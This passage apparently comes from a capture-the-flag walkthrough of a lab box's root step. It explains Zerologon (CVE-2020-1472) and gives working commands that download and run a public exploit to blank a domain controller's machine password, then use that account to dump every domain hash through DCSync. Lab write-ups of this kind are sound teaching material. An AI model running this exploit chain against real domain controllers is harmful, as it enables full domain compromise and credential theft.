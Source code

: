 ```bash
crackmapexec smb dc01.contempt.htb -M zerologon
```

![](https://i.imgur.com/9cIICbW.png)

![](https://i.imgur.com/mwd5eAJ.jpg)

### Root

####  Zerologon (CVE-2020-1472)

Zerologon is a well-known vulnerability that was disclosed in september 2020. It is exploiting the protocol NetLogon. This protocol is a remote session opening based on RPC calls. But it is also allowing a computer to update his domain computer password from a domain controller. Because of a weak cryptographic configuration, we can set all the challenges to `00000000000000000000000000000000` an impersonate the call to change the password of the computer domain account.

This is what we'll do here, we'll empty the password of `DC01$` domain account. The accounts that ends with `$` are the domain machine accounts.

```bash
wget https://raw.githubusercontent.com/dirkjanm/CVE-2020-1472/master/cve-2020-1472-exploit.py
python3 cve-2020-1472-exploit.py DC01 10.129.235.160
```

So we can now login using `DC01$` just as if we were a classical user and list the shares.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'DC01$' -p '' --shares
```

![](https://i.imgur.com/oxmQSuV.png)


This means that our exploit worked properly. Unfortunately, nothing interesting here. I also tried to see if there is some GPO stored in the `SYSVOL` share that has encrypted password in it.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'DC01$' -p '' -M gpp_password
```

![](https://i.imgur.com/5Aj9OM2.png)

But no passwords.

#### DCSync using empty DC01$

One very useful trick, now that we have the account machine, is that we have the extended privileges `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`. Which means that we can use DCSync to retrieve all the data from the domain controller such as : 
- Domain account username & hashes
- Kerberos keys
- Passwords stored using reversible encryption
- LSA secrets

```bash
crackmapexec smb dc01 -u 'DC01$' -p '' --ntds
```
